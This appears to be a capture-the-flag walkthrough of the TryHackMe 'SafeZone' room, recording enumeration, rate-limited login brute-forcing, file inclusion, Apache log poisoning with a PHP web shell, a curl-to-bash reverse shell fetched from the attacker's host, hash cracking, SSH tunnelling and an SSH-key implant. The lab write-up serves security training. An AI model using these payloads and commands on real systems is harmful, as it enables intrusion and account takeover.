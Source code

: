 # 76 - SafeZone (LFI Log Poisoning, SSH Tunneling)

Room Link --> [https://tryhackme.com/room/safezone](https://tryhackme.com/room/safezone)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.90.206

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.90.206 -w /usr/share/dirb/wordlists/common.txt -x txt,php,sh,cgi,html,zip,bak,sql -b 404,403

/dashboard.php
/detail.php
/index.php
/index.html
/note.txt
/logout.php
/news.php
/register.php
```
{% endcode %}

Navigating to `index.php` .

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Trying default credentials like admin, password, etc but it seems there is rate limiting.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Checking `/note.txt` .

{% code overflow="wrap" %}
```
Message from admin :-

I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Create a new account in `/register.php` .

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`/news.php`&#x20;

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

`/detail.php`&#x20;

```
<!-- try to use "page" as GET parameter-->
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We got a GET parameter to use, and remember the `/note.php` text we found too.

So i checked walkthrough, the most reasonable one i saw admitted to using this wordlist:

```
/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```

Which had the new directory in it.

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://safezone.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,php

/~files
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We got a hint for admin password.

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "

```

In here I got the definitive username and the password. But there had to be two numbers in between. Because that was the only hint, I had to try all the different numeric combinations. But I still had in mind, that I only had three login attempts. So I set up the numeric combinations with Python and saved it to a file.

```bash
for i in {0..99}; do echo $i; done > numbers.txt
```

I manually edited the one digit numbers at the beginning to fit the scheme (from 0 to 00 and 1 to 01). With that prepared I ran it with wfuzz sleeping for 21 seconds per requests.

#### POST Login request bruteforce using wfuzz

{% code overflow="wrap" %}
```bash
wfuzz -c -z file,numbers.txt -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://safezone.thm/index.php -s 21
```
{% endcode %}

But i wrote my own bash script to automate this  well.

```bash
#!/bin/bash

url="http://safezone.thm/index.php"

for i in $(seq 10 99); do
    echo "[-]trying $i"
    response=$(curl -s -X POST -d "username=admin&password=admin${i}admin&submit=Submit" "$url")
    if ! echo "$response" | grep -qE "To many failed login attempts. Please login after 60 sec | Please enter valid login details"; then
        echo "[+]Correct password found: $i"
        break
    fi
    sleep 21
done
```

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We got our correct password then.

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Going to the `/detail.php` dir, then using the "page" parameter we get LFI.

[http://10.10.148.163/detail.php?page=/etc/passwd](http://10.10.148.163/detail.php?page=/etc/passwd)

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

So i used SecsList to Bruteforce for other sensitive files i can read, and i was able to read the `access.log` file, so we can do Log Poisoning attack.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```php
<?php system($_GET['cmd']); ?>
```

So we intercept the request to read the apache log file and inject this to the User-agent field:

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

So its working.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Got a bash oneliner from payloadallthethings, save it in a shell.sh file setup NC, host it using `python3 -m http.server` then execute it using:

[http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash)

And i got shell.

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to files user

Looked around Files home dir, and there is a `.something#fake_can@be^here` file containing password hash for Files user.

{% code overflow="wrap" %}
```bash
www-data@safezone:/home/files$ cat '.something#fake_can@be^here'
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
{% endcode %}

Cracked it using john

`magic`&#x20;

Login via ssh and it worked.

### Priv Esc to Yash user

`sudo -l`&#x20;

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

I looked around the server for a while. When I looked for opened ports locally I found a second web application on port 8000.

`ss -tulnp` .

### Port Tunneling

Using SSH Tunneling to open the remote port on my kali

`ssh -L 8000:localhost:8000 files@safezone.thm -fN` .

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://localhost:8000 -w /usr/share/dirb/wordlists/common.txt -x php,txt -b 404,403

/pentest.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Most of the cmds were blocked.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

SO whatever cmd we are entering in the terminal is been executed on the machine as `yash` user.

What i did was create a `.ssh` folder in `/home/yash/` then add my kali ssh public key into the authorized\_keys file and ssh into yash account and it worked.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

Now as the user “yash” I got another output for the `sudo -l` command.

I tested the full command by simply executing it.

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Done!

